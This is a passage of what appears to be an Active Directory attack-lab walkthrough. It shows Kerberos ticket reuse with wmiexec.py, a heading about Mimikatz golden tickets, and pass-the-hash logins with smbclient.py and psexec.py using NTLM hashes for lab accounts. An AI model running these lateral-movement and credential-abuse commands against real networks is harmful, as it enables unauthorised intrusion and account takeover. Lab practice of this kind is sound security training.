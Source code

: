 `export KRB5CCNAME=/home/kali/eddard.stark.ccache`

`wmiexec.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell.north.sevenkingdoms.local`


# GOLDEN TICKET MIMIKATZ

### Upload Mimikatz to target

Use smbvclient to pass the hash with Robb.Stark and upload the mimikatz file.

`smbclient.py -hashes :831486ac7f26860c9e2f51ac91e1a07a NORTH/robb.stark@10.4.10.22`

Logn in with PSEXEC and pass-the-hash:

`psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.22 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8`

